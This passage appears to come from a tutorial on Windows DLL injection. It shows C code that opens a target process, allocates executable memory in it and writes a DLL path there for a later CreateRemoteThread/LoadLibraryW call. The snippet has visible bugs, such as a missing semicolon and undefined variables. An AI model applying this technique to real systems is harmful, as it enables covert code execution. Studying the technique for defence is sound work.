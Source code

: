 ![Pasted image 20250307100953](https://github.com/user-attachments/assets/bfe77b1c-0bc3-41a6-9392-fe000634f62d)


>The addresses of these system DLLs is randomised at boot, but consistent across processes

Cool, we know have the address of `LoadLibraryW()` ready to be passed to *process B*. Let's move on to the next step.

### (2)
Now that we can get *process B* to execute the `LoadLibraryW()` function, we need to have it use our DLL filename as an argument. With `CreateRemoteThread()`, we should pass this argument to-be-used as an address as well. This means the string containing our DLL filename should already be present in the memory of *process B*, so we can supply its address. How do we get it there? The same way that we got our shellcode into its memory in the previous post; using `VirtualAllocEx()` and `WriteProcessMemory`.

```C
// Get a handle to the process
hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPID);
if (hProcess == NULL) {
	return EXIT_FAILURE;
}

// Create our DLL filename and path as a string and compute its size
wchar_t* lpDLLName = L"Path/To/Our/Malicious.dll"
size_t sDLLNameSize = sizeof(lpDLLName);

// Allocate memory in process B that can hold our DLL filename
rBuffer = VirtualAllocEx(
	hProcess,
	NULL,
	payloadSize,
	(MEM_COMMIT | MEM_RESERVE),
	PAGE_EXECUTE_READWRITE
);

// Write that filename to the allocated memory
WriteProcessMemory(
	hProcess,
	rBuffer,
	payload,
	payloadSize,
	NULL
)
```

Let's check if this all went according to plan. In my case, the filename was `C:\\Users\\xoort\\Desktop\\Projects\\Crow stuff\\InjectDLL\\x64\\Release\\InjectDLL.dll`

Address in the memory space of the calculator app that the DLL filename was written to:

![Pasted image 20250307101537](https://github.com/user-attachments/assets/13452074-1b42-4038-8ec2-7a7d8d7f3a88)

